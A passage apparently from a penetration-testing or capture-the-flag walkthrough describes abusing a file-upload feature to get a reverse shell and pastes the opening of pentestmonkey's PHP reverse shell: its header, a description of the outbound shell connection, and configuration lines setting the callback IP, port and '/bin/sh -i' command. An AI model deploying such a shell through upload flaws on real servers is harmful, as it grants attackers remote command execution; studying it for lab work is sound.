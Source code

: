 uploads

As we can see, we can use a file upload to get a reverse shell into our machine, we shall use the PHP-reverse shell from [pentest-monkey](https://github.com/pentestmonkey/php-reverse-shell) 

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

```